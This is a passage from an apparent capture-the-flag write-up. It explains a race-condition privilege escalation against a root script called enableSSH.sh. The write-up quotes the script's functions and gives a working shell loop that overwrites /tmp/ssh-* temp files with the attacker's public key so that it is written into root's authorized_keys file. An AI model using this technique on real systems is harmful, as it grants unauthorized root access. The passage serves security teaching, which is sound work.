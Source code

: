 

    checkFile() {
                                          
            if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

                    /bin/echo "Error in creating key file!"

                    if [[ -f $1 ]]; then /bin/rm $1; fi

                    exit 1

            fi

    }



After the call to `addKey` there's a call to `checkAdded`:



    checkAdded() {

            sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

            if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

                    /bin/echo "Successfully added $sshName to authorized_keys file!"

            else

                    /bin/echo "Error in adding $sshName to authorized_keys file!" 

            fi

    } 



It uses `cut` to get the user from the SSH public key entry, and then
checks that that names is in the `authorized_keys` file.

### Exploit

I can abuse this script by executing an attack on the temp file. I'll
watch for the file, and then change it's contents to my SSH public key,
so that my key is written into `/root/.ssh/authorized_keys`.

I want a loop that will run constantly, looking for files starting with
`ssh-` in `/tmp`, and replacing their contents with my public key.



    neil@tenet:~$ while true; do for fn in /tmp/ssh-*; do echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > $fn; done; done



Now, in a second terminal, I'll run `sudo enableSSH.sh`:



    neil@tenet:~$ sudo enableSSH.sh 
    Error in adding root@ubuntu to authorized_keys file!

